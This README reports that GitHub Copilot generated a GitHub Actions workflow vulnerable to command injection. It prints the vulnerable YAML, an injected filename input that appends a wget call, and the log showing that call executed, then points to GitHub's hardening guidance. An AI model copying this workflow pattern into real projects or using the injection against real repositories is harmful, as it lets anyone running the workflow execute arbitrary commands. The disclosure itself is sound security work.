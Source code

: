 # copilot-gha-vul-command-injection

Today 2024-12-18, GitHub copilot is [General Availabe](https://github.blog/changelog/2024-12-18-copilot-chat-on-github-is-now-generally-available-for-all-users/), anyone can use GitHub Copilot for free at https://github.com/copilot or with editor like VSCode.

Using the latest model GPT 4o, I tried to create a GitHub action to run a command with user input. The generated code at https://github.com/hvnsweeting/copilot-gha-vul-command-injection/blob/main/.github/workflows/run-python-script.yml , main part:

```yaml

    - name: Run Python script
      run: python main.py ${{ github.event.inputs.filename }}

    - name: Create Pull Request
      uses: peter-evans/create-pull-request@v3

```
 could work after some modifcation i.e. [allow action to WRITE](https://github.com/ad-m/github-push-action/issues/96#issuecomment-889984928), it has serious security issues:


![vscode](vscode.png)

## Command injection
Users who can run the action (e.g in an org) can execute any command by add `; command` to the filename input. For example here run with filename

```
input.txt; wget -O- https://httpbin.org/get 
```

and result is


```

Run python main.py input.txt; wget -O- https://httpbin.org/get 
  python main.py input.txt; wget -O- https://httpbin.org/get 
  shell: /usr/bin/bash -e {0}
  env:
    pythonLocation: /opt/hostedtoolcache/Python/3.12.8/x64
    LD_LIBRARY_PATH: /opt/hostedtoolcache/Python/3.12.8/x64/lib
--2024-12-19 13:42:12--  https://httpbin.org/get
Resolving httpbin.org (httpbin.org)... 34.226.108.155, 98.85.100.80
Connecting to httpbin.org (httpbin.org)|34.226.108.155|:443... connected.
HTTP request sent, awaiting response... 200 OK
...
```
https://github.com/hvnsweeting/copilot-gha-vul-command-injection/actions/runs/12413871568/job/34656690134

This vul is so popular, it is always on top 10 OWASP https://owasp.org/www-community/attacks/Command_Injection
that's maybe the reason Copilot **learned** it.

## Use old version of action

```
create-pull-request@v3
```
Current version is v7

v3 was released `Feb 28, 2022`, there were 366 commits between them https://github.com/peter-evans/create-pull-request/compare/v3...v7

### Mitigation

While this is buried under "Security" section of GitHub Action docs, user who use GitHub copilot likely won't every open it. 

https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions#example-of-a-script-injection-attack

### Should not trust Copilot than anyone on internet :joy:
### Work with GitHub action is painful :cry:
